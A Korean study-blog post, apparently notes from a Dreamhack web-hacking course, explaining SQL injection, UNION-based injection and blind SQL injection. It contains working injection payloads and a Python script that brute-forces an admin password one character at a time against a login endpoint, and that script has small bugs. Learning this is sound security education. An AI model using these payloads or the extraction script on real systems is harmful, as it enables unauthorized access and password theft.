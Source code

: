 ```yaml
---
layout : single
title : "STAGE6. SQL Injection (2) : Serverside"
categories: web-hacking
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```

# Web Hacking - SQL Injection (2)

-  [x] Simple SQL Injection
-  [x] Bline SQL Injection

## ServerSide : SQL Injection
Injection : 이용자의 입력값이 애플리케이션의 처리 과정에서 구조 또는 문법적인 데이터로 해석되어 발생하는 취약점

### SQL Injection
SQL은 DBMS에 데이터를 질의하는 언어로, 웹 서비스는 이용자의 입력(로그인 시에 ID/PW, 게시글의 제목과 내용)을 SQL 구문에 포함하여 요청하는 경우가 있다. 아래는 로그인 시 애플리케이션이 DBMS에 질의하는 퀴리의 예시이며, 사용자가 입력한 id와 pw가 뭐리문에 포함되어있는 것을 알 수 있다. 이처럼 SQL에 이용자가 임의 문자열을 삽입하는 행위를 SQL Injection이라 하며, 이 때 우리는 조작된 쿼리로 인증을 우회하거나, 데이터베이스의 정보를 유출할 수 있다.

```sql
/*
아래 쿼리 질의는 다음과 같은 의미를 가지고 있습니다.
- SELECT: 조회 명령어
- *: 테이블의 모든 컬럼 조회
- FROM accounts: accounts 테이블 에서 데이터를 조회할 것이라고 지정
- WHERE user_id='dreamhack' and user_pw='password': user_id 컬럼이 dreamhack이고, user_pw 컬럼이 password인 데이터로 범위 지정
즉, 이를 해석하면 DBMS에 저장된 accounts 테이블에서 이용자의 아이디가 dreamhack이고, 비밀번호가 password인 데이터를 조회
*/
SELECT * FROM accounts WHERE user_id='dreamhack' and user_pw='password'
```
<br><Br>
아래의 쿼리에서는 user_pw 조건문이 사라져있으며, 이러한 경우 비밀번호의 대조 없이 id만으로 계정에 로그인이 가능하다

```sql
/*
아래 쿼리 질의는 다음과 같은 의미를 가지고 있습니다.
- SELECT: 조회 명령어
- *: 테이블의 모든 컬럼 조회
- FROM accounts: accounts 테이블 에서 데이터를 조회할 것이라고 지정
- WHERE user_id='admin': user_id 컬럼이 admin인 데이터로 범위 지정
즉, 이를 해석하면 DBMS에 저장된 accounts 테이블에서 이용자의 아이디가 admin인 데이터를 조회
*/
SELECT * FROM accounts WHERE user_id='admin'
```

#### Simple SQL Injection
Union Operator : [link](https://www.w3schools.com/sql/sql_union.asp)<br>
SQL에서 Union은 두 개 이상의 result-set을 결합하는 역할을 한다. 기존의 코드는 user_table에서 uid의 값만 select하기에, SQL을 실행했을 때, uid의 값만을 받아올 수 있다. 따라서, union을 사용하여 upw를 함께 받아오는 코드를 작성한 후, 후의 코드를 --를 통해 주석처리 해주었다.
<br><Br>
<img src = "/images/webbackground/8.png"><br><Br>
결과<br><Br>
<img src = "/images/webbackground/9.png">

#### Blind SQL Injection
아래의 예시와 같이, 스무고개와 유사한 방식으로 데이터를 알아낼 수 있다. DBMS가 답변 가능한 형태로 질문하며, 질의 결과를 이용자가 직접 화면에서 확인하지 못할 때, 참과 거짓의 반환 결과로 데이터를 획득한다

1. Question #1. dreamhack 계정의 비밀번호 첫 번째 글자는 'x' 인가요?<Br>
Answer. 아닙니다

2. Question #2. dreamhack 계정의 비밀번호 첫 번째 글자는 'p' 인가요?<Br>
Answer. 맞습니다 (첫 번째 글자 = p)

3. Question #3. dreamhack 계정의 비밀번호 두 번째 글자는 'y' 인가요?<Br>
Answer. 아닙니다.

4. Question #4. dreamhack 계정의 비밀번호 두 번째 글자는 'a'인가요?<Br>
Answer. 맞습니다. (두 번째 글자 = a)

<br><br>
예시 코드

```sql
# 첫 번째 글자 구하기 (아스키 114 = 'r', 115 = 's'')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=114-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=115-- ' and upw=''; # True
# 두 번째 글자 구하기 (아스키 115 = 's', 116 = 't')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=115-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=116-- ' and upw=''; # True 
```

---

Blind SQL Injection은 한 바이트씩 비교하기 때문에 다른 공격에 비해 많은 시간을 들여야 하며, 이를 해결하기 위해서는 공격을 자동화하는 스크립트를 작성해야 한다. 

**request 모듈 GET 예제 코드**

```python
import requests
url = 'https://dreamhack.io/' # 요청 보낼 url
headers = { # 요청 헤더
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
params = { # 보낼 파라미터 변수 (key-value 형식)
    'test': 1,
}
for i in range(1, 5):
    c = requests.get(url + str(i), headers=headers, params=params)
    print(c.request.url)
    print(c.text)
```

**request 모듈 POST 예제 코드**

```python
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
data = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.post(url + str(i), headers=headers, data=data)
    print(c.text)
```

---

Blind SQL Injection으로 비밀번호를 알아내는 경우, 알파벳과 숫자, 특수문자를 모두 포함한 범위를 지정해야한다. 아래는 이를 고려하여 작성한 스크립트로, 비밀번호에 포함되는 모든 문자를 string을 사용하여 생성하고, 모든 문자를 한 바이트씩 비교하는 반복문을 작성한다. 반복문 실행 중 반환 결과가 참일 경우 Login success 문자열을 찾고, 해당 결과를 반환한 문자를 password에 저장한다. 이 작업이 끝나면 비밀번호를 알아낼 수 있다.

```python
#!/usr/bin/python3
import requests
import string
url = 'http://example.com/login' # example URL
params = {
    'uid': '',
    'upw': ''
}
tc = string.ascii_letters + string.digits + string.punctuation # abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''
password = ''
for idx in range(0, 20):
    for ch in tc:
        params['uid'] = query.format(idx=idx, val=ord(ch)).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        if c.text.find("Login success") != -1:
            password += chr(ch)
            break
print(f"Password is {password}")
```